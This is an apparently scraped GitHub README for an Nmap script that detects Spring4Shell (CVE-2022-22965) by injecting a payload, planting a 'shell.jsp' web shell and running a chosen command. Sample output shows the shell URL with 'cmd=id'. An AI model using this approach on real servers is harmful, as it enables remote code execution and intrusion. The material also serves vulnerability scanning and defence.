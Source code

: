 # nmap-spring4shell

Nmap Spring4Shell NSE script for Spring Boot RCE (CVE-2022-22965) 

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/gpiechnik2](https://github.com/gpiechnik2) |
| Url      | [https://github.com/gpiechnik2/nmap-spring4shell](https://github.com/gpiechnik2/nmap-spring4shell)                                               |
| Stars    | 7                                                          |
| License  | No License                                                        |

<details>

<summary>Topic / Tags</summary>

* cve-2022-22965* exploit* nmap* nmap-scripts* spring4shell* vulnerability

</details>

## Readme

# Nmap-spring4shell
Log4shell-nmap is an NSE script for detecting Spring4Shell RCE vulnerabilities (CVE-2022-22965) in HTTP services. The script injects the correct payload into the application and then executes the following command on the specified endpoint.

## Vulnerability
See [here](https://www.lunasec.io/docs/blog/spring-rce-vulnerabilities/).

## Usage
```
┌──(kali㉿kali)-[~/nmap-spring4shell]
└─$ nmap 127.0.0.1 --script=./spring4shell.nse
(...)
PORT     STATE SERVICE    REASON  VERSION
8080/tcp open  http-proxy syn-ack
| spring4shell: 
|   VULNERABLE:
|   Spring4Shell - Spring Framework RCE via Data Binding on JDK 9+
|     State: VULNERABLE
|     IDs:  CVE:CVE-2022-22965
|     Check results:
|       127.0.0.1:8080/shell.jsp?pwd=j&cmd=id
|     Extra information:
|       TESTED URL: 127.0.0.1:8080
|       COMMAND: id
|       ASSERTION: uid
|     References:
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-22965
```

## Arguments
We can use several variables in the script. These are as follows:
- `endpoint` - relative url. On `https://bugspace.pl/search/videos` it will be `/search/videos`,
- `command` - command to be run on the server.  The default command is `id`,
- `assertion` - the checked string inside the server response. The default assertion is `uid`,
- `filename` - file name on the server. For more information see [here](https://www.lunasec.io/docs/blog/spring-rce-vulnerabilities/). The default name is `shell`.

## Additional data
Tested on application from [here](https://github.com/BobTheShoplifter/Spring4Shell-POC) and [here](https://github.com/reznok/Spring4Shell-POC)

## License
Same as Nmap. See https://nmap.org/book/man-legal.html



## Get the content

```
git clone https://github.com/gpiechnik2/nmap-spring4shell
cd nmap-spring4shell
```

{% embed url="https://github.com/gpiechnik2/nmap-spring4shell" %}

<figure><img src="https://avatars.githubusercontent.com/u/48253270?v=4" alt=""><figcaption><p>gpiechnik2</p></figcaption></figure>

